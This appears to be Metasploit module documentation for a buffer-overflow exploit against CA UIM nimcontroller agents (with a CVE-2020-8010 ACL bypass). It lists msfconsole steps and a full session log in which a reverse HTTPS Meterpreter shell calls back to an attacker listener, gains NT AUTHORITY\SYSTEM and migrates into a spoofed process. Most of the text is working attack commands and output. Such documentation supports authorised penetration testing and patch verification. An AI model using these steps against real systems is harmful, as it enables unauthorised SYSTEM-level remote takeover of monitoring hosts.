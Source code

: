## Vulnerable Application

All CA Infrastructure Management monitoring agents prior to 9.20 are vulnerable to a buffer overflow vulnerability within the nimcontroller when using the directory_list probe. Since the directory_list probe requires read privileges the target host must also be vulnerable to CVE-2020-8010 to bypass ACL settings. Successful code execution will result in a NT AUTHORITY\SYSTEM shell, even if exploitation fails the remote service will not crash. You should be able to exploit the service an unlimited amount of times.

## Verification Steps

1. Install the CA UIM v7.80.3132 (nimsoftrobotXXX.exe)
2. Start `msfconsole`
3. Do `use exploit/windows/nimsoft/nimcontroller_bof`
4. Do `set RHOSTS <ip>`
5. Do `exploit`
6. Verify shell is opened and service is still accessible

### Windows 10 x64

```
msf5 exploit(windows/nimsoft/nimcontroller_bof) > options 

Module options (exploit/windows/nimsoft/nimcontroller_bof):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS  A.B.C.D          yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT   48000            yes       The target port (TCP)


Payload options (windows/x64/meterpreter/reverse_https):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     W.X.Y.Z          yes       The local listener hostname
   LPORT     8443             yes       The local listener port
   LURI                       no        The HTTP Path


Exploit target:

   Id  Name
   --  ----
   0   Windows Universal (x64) - v7.80.3132


msf5 exploit(windows/nimsoft/nimcontroller_bof) > exploit 

[*] Started HTTPS reverse handler on https://W.X.Y.Z:8443
[*] A.B.C.D:48000 - Verifying directory_list probe is accessible

 Directory of C:\

 12/15/2019 06:24 PM  <DIR> $GetCurrent
 12/14/2019 01:41 AM  <DIR> $Recycle.Bin
 10/18/2019 05:55 PM  <DIR> Documents and Settings
 07/19/2020 01:37 PM  <DIR> pagefile.sys
 07/14/2020 03:41 PM  <DIR> PerfLogs
 06/10/2020 09:18 AM  <DIR> Program Files
 07/19/2020 01:37 PM  <DIR> Program Files (x86)
 07/14/2020 03:41 PM  <DIR> ProgramData
 12/15/2019 07:08 PM  <DIR> Recovery
 07/19/2020 01:37 PM  <DIR> swapfile.sys
 10/18/2019 04:04 PM  <DIR> System Volume Information
 12/15/2019 07:09 PM  <DIR> Users

[+] A.B.C.D:48000 - Successfully obtained directory listing, continuing exploitation
[*] https://W.X.Y.Z:8443 handling request from A.B.C.D; (UUID: cge6dvik) Staging x64 payload (202329 bytes) ...
[*] Meterpreter session 1 opened (W.X.Y.Z:8443 -> A.B.C.D:52352) at 2020-07-19 17:44:36 -0500

meterpreter > 
[*] Session ID 1 (W.X.Y.Z:8443 -> A.B.C.D:52352) processing AutoRunScript 'post/windows/manage/migrate'
[*] Running module against DESKTOP-JICNNRT
[*] Current server process: controller.exe (1376)
[*] Spawning notepad.exe process to migrate into
[*] Spoofing PPID 0
[*] Migrating into 6008
[+] Successfully migrated into process 6008

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > background 
[*] Backgrounding session 1...
msf5 exploit(windows/nimsoft/nimcontroller_bof) > check

[*] A.B.C.D:48000 - Version 7.80 [Build 7.80.3132, Jun  1 2015] detected, sending directory_list probe

 Directory of C:\

 12/15/2019 06:24 PM  <DIR> $GetCurrent
 12/14/2019 01:41 AM  <DIR> $Recycle.Bin
 10/18/2019 05:55 PM  <DIR> Documents and Settings
 07/19/2020 01:37 PM  <DIR> pagefile.sys
 07/14/2020 03:41 PM  <DIR> PerfLogs
 06/10/2020 09:18 AM  <DIR> Program Files
 07/19/2020 01:37 PM  <DIR> Program Files (x86)
 07/14/2020 03:41 PM  <DIR> ProgramData
 12/15/2019 07:08 PM  <DIR> Recovery
 07/19/2020 01:37 PM  <DIR> swapfile.sys
 10/18/2019 04:04 PM  <DIR> System Volume Information
 12/15/2019 07:09 PM  <DIR> Users

[+] A.B.C.D:48000 - The target is vulnerable.
```
